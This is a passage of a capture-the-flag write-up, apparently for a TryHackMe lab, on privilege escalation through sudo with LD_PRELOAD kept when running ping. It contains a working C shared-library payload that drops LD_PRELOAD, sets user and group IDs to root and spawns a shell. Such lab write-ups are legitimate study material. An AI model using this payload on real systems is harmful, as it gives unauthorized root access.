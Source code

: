 ![sudol](/assets/img/CTF/THM/Creative/sudol.png)

We have one binary we can run, ping, but also we have LD_PRELOAD Enabled, I have looked up ping on [GTFOBins](https://gtfobins.github.io/#ping) but nothing came up.

> ##### TIP
> LD_PRELOAD trick is a useful technique to influence the linkage of shared libraries and the resolution of symbols (functions) at runtime.
{: .block-tip }


now we can simply exploit LD_PRELOAD using the following C code

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

